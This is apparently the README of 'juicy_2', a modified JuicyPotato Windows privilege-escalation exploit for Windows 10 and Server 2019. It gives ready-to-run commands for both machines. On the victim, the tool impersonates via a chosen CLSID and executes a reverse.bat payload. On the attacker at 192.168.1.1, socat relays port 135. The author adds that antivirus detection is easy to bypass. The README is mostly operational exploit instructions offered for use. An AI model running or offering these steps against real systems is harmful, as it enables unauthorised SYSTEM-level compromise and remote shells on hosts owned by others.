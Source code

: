 # juicy_2
juicypotato for win10 > 1803 &amp; win server 2019<br>
<b>Disclaimer:</b><br>
This is just a quick & dirty modification of our JuicyPotato in order to test valid CLSID's an to impersonate (YOU NEED IMPERSONATION PRIVILEGES)them for newer windows 10 and windows server 2019 platforms.<br>
(I know, this version is catched by Defender and other AV's, but with some modifications in code it's easy to bypass)
<hr>

Mandatory requisite is to have the possibility to reidirect traffic for port 135 on a forwarder machine under you control.<br>
Feel free to improve the code, I was too lazy for this kind of stuff. <br>
<hr>
<i><b>For testing CLSID:</i></b><br>
juicy_2 -z -x [ip] of socat listener  -l [fake oxid resolver port] -n [local RPC server port] -c [CLSID] to test:<br>
Example:<br>
  on victim:<br>
  juicy_2 -z -x 192.168.1.1 -l 9995 -n 9998 -c {90F18417-F0F1-484E-9D3C-59DCEEE5DBD8}<br>
  on attacker (192.168.1.1): <br>
  socat -v  TCP-LISTEN:135,fork,reuseaddr TCP:<victim machine>:9995 
<br>
  <i><b>For exploitation:</i></b><br>
  on victim:<br>
  juicy_2 -x 192.168.1.1 -l 9995 -n 9998 -c {90F18417-F0F1-484E-9D3C-59DCEEE5DBD8} -t * -p c:\temp\reverse.bat<br>
  on attacker (192.168.1.1): <br>
  socat -v  TCP-LISTEN:135,fork,reuseaddr TCP:<victim machine>:9995<br>
  
